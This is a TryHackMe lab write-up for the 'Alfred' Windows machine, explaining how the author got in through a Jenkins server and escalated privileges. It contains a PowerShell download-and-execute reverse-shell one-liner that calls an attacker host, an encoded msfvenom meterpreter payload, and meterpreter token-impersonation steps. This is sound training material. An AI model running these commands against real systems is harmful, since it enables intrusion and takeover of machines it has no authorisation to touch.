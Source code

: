 ```yaml
---
title: Alfred WriteUp
description: Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
tags:
- writeups
- tryhackme
- windows
- jenkins
- powershell
- metasploit
- nishang
---
```

## Enumeration

Target is a Windows machine so likely blocking ping

Initial port scan

```bash
sudo nmap -Pn 10.10.17.213
```

Results:
```bash
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

- Port 80 shows a webpage that looks like it's just for flavor.
- Port 3389 is RDP
- Port 8080 is a Jenkins server

Tryhackme flag field had mask of `*****:*****` so tried `admin:admin` which worked

## Initial Access

I cloned Nishang (https://github.com/samratashok/nishang.git) and served the `Shells` directory with

```bash
python -m http.server
```
Started a netcat listener on port `9001`

Created a Jenkins project with a build step of `Execute Windows batch command` with the command:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.32.196:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.4.32.196 -Port 9001
```

Save the project and press Start Build.

This gets a reverse shell for powershell

## Switching Shells

Start `exploit/multi/handler` on port 9001

Generate shell.exe with
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai 'LHOST=10.4.32.196' LPORT=8081 -f exe > shell.exe
```

Host shell.exe with `python -m http.server`

Run shell from powershell with
```powershell
(New-Object System.Net.WebClient).Downloadfile('http://10.4.32.196:8000/shell.exe', 'C:\Users\Public\Documents\shell.exe')
Start-Process C:\Users\Public\Documents\shell.exe
```

## Privilege Escalation

From the powershell session check privs with
```powershell
whoami /priv
```

In meterpreter the same can be done with
```
getprivs
```

Of interest are:

- SeDebugPrivilege
- SeImpersonatePrivilege

We load the meterpreter incognito module and list available tokens to use
```
use incognito
list_tokens -g
```

Output:
```
Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
...SNIP...

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
...SNIP...
```

We select `BUILTIN\Administrators` to impersonate
```
impersonate_token "BUILTIN\Administrators"
```

Checking user (`getuid`) reveals we are now running as `NT AUTHORITY\SYSTEM`

Since some permissions are enforced based off actual user not effective user of process, we have to migrate to a new process.

TryHackMe recommends `services.exe` so we go there.

For some reason I wasn't able to view the file from services.exe so I had to add a user, RDP in and retrieve the flag
through Explorer.
